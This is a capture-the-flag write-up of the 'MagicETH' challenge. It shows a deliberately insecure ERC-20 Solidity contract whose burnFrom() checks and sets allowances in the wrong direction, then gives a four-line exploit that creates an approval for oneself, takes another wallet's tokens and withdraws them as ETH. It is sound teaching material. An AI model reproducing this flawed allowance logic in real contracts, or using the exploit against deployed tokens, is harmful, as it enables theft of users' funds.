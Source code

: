 # MagicETH

## Challenge

As this challenge is the first of the whole CTF/Workshop it is very simple. We are only provided with one contract, which is an ERC-20:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

/**
 * @title MagicETH: The Insecure Wrapped Ether   
 */
contract MagicETH is ERC20("Magic insecure ETH", "mETH") {
    
    /**
     * @notice Deposit ether to get wrapped ether
     */
    function deposit() public payable {
        _mint(msg.sender, msg.value);
    }

    /**
     * @notice Withdraw, burn Magic Ether to get Ether
     */
    function withdraw(uint256 amount) external {
        // _value is the amount of ether to withdraw
        uint256 _value = address(this).balance * amount / totalSupply();

        _burn(msg.sender, amount);

        (bool success,) = msg.sender.call{value: _value}("");
        require(success, "ETH transfer failed");
    }

    /**
     * @dev Burn Magic Ether
     */
    function burnFrom(address account, uint256 amount) public {
        uint256 currentAllowance = allowance(msg.sender, account);
        require(currentAllowance >= amount, "ERC20: insufficient allowance");

        // decrease allowance
        _approve(account, msg.sender, currentAllowance - amount);

        // burn
        _burn(account, amount);
    }
}
```

Challenge Description:
A prominent protocol, InsecStar, finds itself under attack. Their token, MagicETH (mETH), has been drained through an exploit in their borrow & loan protocol.

InsecStar has urgently summoned you to devise a method to recover the stolen tokens and redeem them for ETH before the situation worsens. This is a critical test of your capabilities. Can you rise to the occasion and secure the tokens, thereby reinforcing the strength and resilience of the Ethereum ecosystem?

📌 Recover `1000 mETH` from the *exploiter wallet*.

📌 Convert the `mETH` to `ETH` to avoid further losses.

## Solution

The problem here is that the check in the burnFrom() function is messed up. Instead of checking if the person we are burning from has given us an allowance, it checks if we have given an allowance to that person, which we can always do.

```solidity
uint256 currentAllowance = allowance(msg.sender, account);
```

This alone is already pretty bad as it allows us to burn anyone else's tokens, but doesn't help us in stealing their tokens. The part that enables us to do this is that afterward it does the check the opposite way and sets the new allowance of our target -> us, to our allowance to the target minus the amount we burned.

```solidity
_approve(account, msg.sender, currentAllowance - amount);
```

So we can also create arbitrary approvals from others to ourselves.

So we only have to do a few steps to solve this:
1. Approve the exploiter for 1000 ether
2. Exploit the wrong check in burnFrom() to generate an allowance of all his tokens for ourself
3. Transfer the tokens to ourself
4. Withdraw

I implemented this in 4 LOC in the Testcase:

```solidity
//First we approve then exploiter for all the money
mETH.approve(exploiter, 1000 ether);

//Then we exploit the wrong check in burnFrom() to generate an allowance of all his tokens to ourself
mETH.burnFrom(exploiter, 0);

//Now we transfer the tokens to ourself
mETH.transferFrom(exploiter, whitehat, 1000 ether);

//Withdraw & done
mETH.withdraw(1000 ether);
```

This passes the testcase & solves the challenge.